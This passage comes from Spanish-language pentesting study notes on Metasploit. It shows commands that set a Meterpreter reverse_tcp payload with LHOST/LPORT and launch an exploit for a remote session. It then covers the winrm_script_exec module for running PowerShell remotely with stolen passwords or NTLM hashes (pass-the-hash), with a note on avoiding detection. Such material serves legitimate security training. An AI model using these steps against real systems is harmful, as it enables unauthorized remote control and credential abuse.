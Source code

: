 			4. **Payload**: Selecciona el payload que deseas utilizar para la ejecución de código remoto. Un ejemplo común es `windows/meterpreter/reverse_tcp`, que te da control remoto mediante una sesión de Meterpreter.
			    
			    `set PAYLOAD windows/meterpreter/reverse_tcp set LHOST <tu dirección IP> set LPORT <puerto para la conexión de retorno>`
			    
			5. **Ejecutar el Exploit**: Finalmente, lanza el exploit ejecutando:
			    
			    `exploit`
			    
			    Si el sistema es vulnerable y el exploit tiene éxito, se abrirá una sesión con el payload seleccionado, permitiéndote controlar el sistema remoto.
	- ## WINRM
		-  **Modulo para ejecutar script de manera remota
			- El módulo `winrm_script_exec` de Metasploit es una herramienta diseñada para ejecutar scripts en sistemas Windows de manera remota a través del protocolo **WinRM (Windows Remote Management)**. Este protocolo permite la administración remota en sistemas Windows y es una vía común para ejecutar comandos y gestionar máquinas Windows desde otra computadora. A continuación, te explico los aspectos clave de este módulo y cómo se usa en escenarios de pentesting.
			- ### Características Principales del Módulo `winrm_script_exec`
				
				1. **Ejecución Remota de Scripts**:
				    
				    - Permite ejecutar scripts en PowerShell en el sistema objetivo de manera remota. Es útil en escenarios donde tienes acceso a credenciales válidas y el sistema tiene WinRM habilitado.
				2. **Uso de Credenciales**:
				    
				    - Requiere credenciales de usuario válidas para el sistema objetivo. Puedes utilizar un nombre de usuario y contraseña o realizar ataques de **Pass-The-Hash** utilizando hashes NTLM.
				3. **Compatibilidad con PowerShell**:
				    
				    - El módulo está diseñado específicamente para ejecutar scripts de PowerShell, aprovechando las capacidades avanzadas de este shell en sistemas Windows para realizar tareas complejas de administración o post-explotación.
				4. **Interacción con Sistemas Protegidos**:
				    
				    - Este módulo permite interactuar con el sistema objetivo sin necesidad de habilitar otros servicios, lo que reduce la posibilidad de detección. Sin embargo, los administradores pueden auditar y rastrear las conexiones WinRM en entornos monitorizados.
			- ### Configuración y Ejecución del Módulo `winrm_script_exec`

				- Para utilizar este módulo en Metasploit, sigue estos pasos básicos:
					
					1. **Cargar el Módulo en Metasploit**: En Metasploit, carga el módulo con el siguiente comando:
					    
					    `use auxiliary/admin/winrm/winrm_script_exec`
					    
					2. **Definir los Parámetros**:
					    
					    - **RHOSTS**: La IP o el rango de IPs del sistema o sistemas objetivo.
					    - **USERNAME**: El nombre de usuario con permisos para acceder a WinRM en el sistema.
					    - **PASSWORD** o **HASH**: La contraseña o el hash NTLM del usuario.
					    - **SCRIPT**: La ruta al script en PowerShell que deseas ejecutar. También puedes ingresar comandos individuales directamente.
					3. **Ejecutar el Módulo**: Una vez configurados los parámetros, ejecuta el módulo con el comando:
					    
					    `run`
					    